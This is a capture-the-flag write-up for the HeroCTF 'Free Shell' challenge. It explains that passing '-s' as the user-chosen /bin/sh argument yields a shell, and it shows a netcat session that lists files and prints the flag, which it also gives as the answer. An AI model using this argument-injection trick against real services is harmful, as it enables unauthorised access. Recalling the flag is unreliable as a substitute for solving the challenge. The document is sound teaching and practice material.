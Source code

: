 # Free Shell

### Category

Misc

### Description

Your goal is to find a valid solution to acquire a shell on the remote server.

Once you have discovered a valid solution locally, you can test it on:<br>
`nc misc.heroctf.fr 7000`

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Files

- [free_shell.py](free_shell.py)

### Write Up

You need to find the correct `/bin/sh` parameter that will allows you to get a shell.

```python
command = [
    "/bin/sh",
    input("Choose param: "),
    os.urandom(32).hex(),
    os.urandom(32).hex(),
    os.urandom(32).hex()
]
subprocess.run(command)
```

You can use the `-s` flag, for `Read STDIN`.

```
$ nc misc.heroctf.fr 7000
Welcome to the free shell service!
Your goal is to obtain a shell.
Choose param: -s
ls
entrypoint.sh
flag_5MZlXDu0VEMNaXTQsiDqzpaPm5r5xm1d.txt
free_shell.py
cat flag_*
Hero{533m5_11k3_y0u_f0und_7h3_c0223c7_p424m3732}
```

### Flag

- Hero{533m5_11k3_y0u_f0und_7h3_c0223c7_p424m3732}